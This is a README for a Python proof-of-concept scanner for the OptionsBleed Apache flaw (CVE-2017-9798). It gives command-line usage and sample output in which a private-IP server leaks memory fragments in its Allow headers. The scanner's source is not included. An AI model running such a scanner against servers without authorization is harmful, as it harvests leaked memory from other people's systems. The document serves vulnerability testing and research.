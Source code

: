 # OptionsBleed-POC-Scanner
OptionsBleed (CVE-2017-9798) PoC / Scanner

More information coming soon...

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

## Usage

`pip install -r requirements.txt`


```
usage: bleeder.py [-h] [-c COUNT] [-f {option,custom}] [-tc THREAD_COUNT] [-nv] [-ni] [-v] [-e] url

positional arguments:
  url                   full URL (including http(s)) to be scanned

optional arguments:
  -h, --help            show this help message and exit
  -c COUNT, --count COUNT
                        number of times to scan (default: 1000)
  -f {option,custom}, --force {option,custom}
                        forces the scan to attempt using custom verb method
                        OR OPTIONS (default: try OPTIONS THEN custom)
  -tc THREAD_COUNT, --thread-count THREAD_COUNT
                        max concurrent thread count (default: 500)
  -nv, --no-verify      does not verify ssl connection (may be necessary for
                        self-signed certs)
  -ni, --no-ignore      does NOT ignore ssl warnings (default: ignored)
  -v, --verbose         prints all headers
  -e, --errors          prints all errors
```

## Simple Usage

```console
python bleeder.py "http://10.1.2.3" -c 50

        ::OptionsBleed (CVE-2017-9798) Scanner::

[+] scanning http://10.1.2.3 to see if it bleeds!
[+] checking OPTION method
[+] allow headers detected in OPTION response
[+] checking CUSTOM method
[+] allow headers detected in CUSTOM response
[+] scanning with OPTIONS method...
[+] scanning with custom (PULL) method...
[+] 50 responses captured
[+] unique results:
GET,HEAD,allow,HEAD,allow,HEAD,,HEAD,OPTIONS,POST,all,HEAD,
GET,HEAD,allow,HEAD,,HEAD,OPTIONS,POST,all,HEAD,
GET,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,OPTIONS,POST,all,HEAD,,HEAD,,,
GET,HEAD,allow,HEAD,allow,HEAD,,HEAD,OPTIONS,POST,all,HEAD,all,HEAD,
GET,HEAD,allow,HEAD,OPTIONS,POST,all,HEAD,all,HEAD
GET,HEAD,allow,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,OPTIONS,POST,,HEAD,all,HEAD,,HEAD,
GET,HEAD,allow,HEAD,OPTIONS,POST,all,HEAD
GET,HEAD,allow,HEAD,,HEAD,OPTIONS,POST,all,HEAD,all,HEAD,
GET,HEAD,allow,HEAD,allow,HEAD,OPTIONS,POST,all,HEAD
GET,HEAD,allow,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,OPTIONS,POST,all,HEAD,,HEAD,,,
GET,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,OPTIONS,POST,all,HEAD,,HEAD,,,
GET,HEAD,allow,HEAD,allow,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,OPTIONS,POST,,HEAD,all,HEAD,,HEAD,
[+] scan complete!
```
